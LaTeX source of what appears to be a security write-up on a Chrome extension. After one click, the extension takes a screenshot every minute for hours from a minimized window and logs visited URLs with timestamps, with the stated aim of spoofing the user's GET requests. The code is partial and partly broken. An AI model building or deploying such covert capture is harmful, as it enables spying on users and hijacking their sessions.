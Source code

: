 \documentclass[12pt]{article}
\begin{document}
\begin{multicols}{2}
\subsection*{How the extension work}
\subsubsection*{Activation and screenshot collection}
The extension uses the relatively new tab APIs given by Chrome too take screenshot.
The extension makes use of the following permissions:\begin{itemize}
	\item storage
	\item tabs
	\item <all\_urls>
	\item unlimited storage
	\item active tab
	\end{itemize}
	This is the core part of the extension:
	\begin{lstlisting}
var imglist=[];
.............................
// Listen for a click on the camera icon. On that click, take a screenshot.
chrome.browserAction.onClicked.addListener(function() {
chrome.windows.create({type: "popup",state:"minimized"})//the idea is this new window keeps alive chrome and screenshots, offering something interesting to the user.
interval=0;
while(interval<30000000)//print x times, where x is the number of milliseconds/milleseconds for screenshot
{
setTimeout(function(){Loop()},interval);    
interval=interval+60000;
}
});

function Loop (){
chrome.tabs.captureVisibleTab(function(screenshotUrl) {
imglist[index]=screenshotUrl;
chrome.tabs.getSelected(null, function(tab) {list=list+tab.url+"----"+new Date().toJSON()+"\n";});
index++;
if (chrome.runtime.error) {
console.log("Runtime error.");
}
}); 
chrome.storage.local.set({"lista": list});

}
............................
	\end{lstlisting}
	 The extension works in a simple way: it triggers on a browser event, in this case the click on the icon of the extension, but there are other possibilities: we tested that there are no simple ways to take screenshot with no interaction, because the security policy of the API doesn't allow to take a screenshot without some kind of events, presuming that the user should be aware of what is happening; not triggering any event returns only null.
Once triggered, the extension schedule all the future screenshot through the Javascript setTimeout method: this allows to take screenshot for hours, with only the need for a click to start.
The screenshot are stored in an array visible to all the extension methods.
In addition a log of all the pages that were active when the screenshot was taken is saved, and stored locally. So we can try to spoof the \textsc{GET} request done by the user.

\end{multicols}
\end{document}
